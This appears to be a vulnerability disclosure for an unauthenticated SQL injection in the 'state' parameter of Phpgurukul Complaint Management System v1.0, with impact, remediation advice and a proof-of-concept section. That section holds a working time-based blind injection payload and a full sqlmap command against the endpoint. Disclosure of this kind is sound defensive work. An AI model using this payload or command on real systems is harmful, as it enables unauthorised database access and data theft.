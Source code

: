 # Security Vulnerability Disclosure

## Project Information
+ Product Name: Complaint Management System
+ Version: 1.0
+ Vendor Website: Complaint Management System
+ Source Code Download: Download Here

## Reporter Details
+ Reported By: angrysheep

## Vulnerability Overview

+ A severe SQL Injection vulnerability has been identified in the /admin/state.php file of the Phpgurukul Complaint Management System v1.0. This flaw allows attackers to inject malicious SQL code through the state parameter without requiring any form of authentication, potentially leading to unauthorized data access, data manipulation, and complete system compromise.

# Technical Analysis

## Vulnerability Type
+ SQL Injection

## Affected Endpoint
+ File Path: /admin/state.php
+ Parameter Vulnerable: state

## Root Cause

+ The vulnerability arises because the application directly embeds user-supplied input from the state parameter into SQL queries without implementing adequate sanitization or validation mechanisms. This oversight permits attackers to manipulate the SQL query structure by injecting malicious code, thereby executing unintended database operations.

## Impact Assessment

**Exploiting this SQL Injection vulnerability can result in:**
+ **Unauthorized Data Access:** Attackers can retrieve sensitive information from the database.
+ **Data Breach:** Exposure of confidential data, including user information.
+ **Data Manipulation:** Ability to alter or delete existing data.
+ **System Compromise:** Potential for complete takeover of the application and underlying server.
+ **Denial of Service:** Disruption of services through malicious queries that overload the database.

These consequences pose a critical threat to both the security and functionality of the affected system.

# Proof of Concept (PoC)

## Malicious Payload Example
```bash
state=123' AND (SELECT 1249 FROM (SELECT(SLEEP(5)))EKMQ) AND 'zTlX'='zTlX&description=123&submit=
```

**Exploitation Steps Using sqlmap**
**1.Identify the Vulnerable Parameter:**
+ The state parameter in the /admin/state.php file is susceptible to SQL Injection.
**2.Execute the Attack with sqlmap:**
```bash
sqlmap.py -u "192.168.134.167:1111/admin/state.php" \
         --data="state=123&description=123&submit=" \
         --batch --level=5 --risk=3 --dbms=mysql \
         --random-agent --tamper=space2comment --dbs
```

**3.Observation:**
+ The injected payload causes a delay (SLEEP(5)), indicating successful exploitation.

**Execution Evidence**
+ ![image](https://github.com/user-attachments/assets/b0c97777-89f5-49d1-829a-cdb2f5920ea9)

## Remediation Recommendations

To mitigate the identified SQL Injection vulnerability, the following actions are recommended:

**1.Implement Prepared Statements and Parameterized Queries**

+ Utilize prepared statements to ensure that user inputs are treated strictly as data, not executable code. This effectively separates SQL logic from user-supplied data.

**2.Enforce Input Validation and Sanitization**
  
+ Rigorously validate and sanitize all user inputs to ensure they conform to expected formats and types before processing. Reject or properly handle any anomalous input.

**3.Adopt the Principle of Least Privilege**
  
+ Configure database user accounts with the minimal necessary permissions required for their function. Avoid using high-privilege accounts (e.g., root, admin) for routine database operations.

**4.Conduct Regular Security Audits and Code Reviews**
  
+ Perform periodic security assessments and code reviews to identify and remediate potential vulnerabilities proactively. Utilize automated tools and manual testing to enhance coverage.

**5.Implement Web Application Firewalls (WAF)**
  
+ Deploy a WAF to monitor and filter malicious traffic, providing an additional layer of defense against SQL Injection and other common web vulnerabilities.

## Conclusion

The discovered SQL Injection vulnerability in the Phpgurukul Complaint Management System poses a significant risk to the application’s integrity and the confidentiality of its data. Immediate remediation is essential to safeguard against potential exploitation and to maintain the trust of users relying on the system.

**Additional Resources**
+ [Complaint Management System Homepage](https://phpgurukul.com/complaint-management-sytem/)
+ [Download Complaint Management System Source Code](https://phpgurukul.com/wp-content/uploads/2017/12/Complaint-Management-System-PHP.zip)

**Disclaimer: This report is intended solely for the responsible disclosure of security vulnerabilities to the affected vendor. Unauthorized use or distribution of this information is prohibited.**
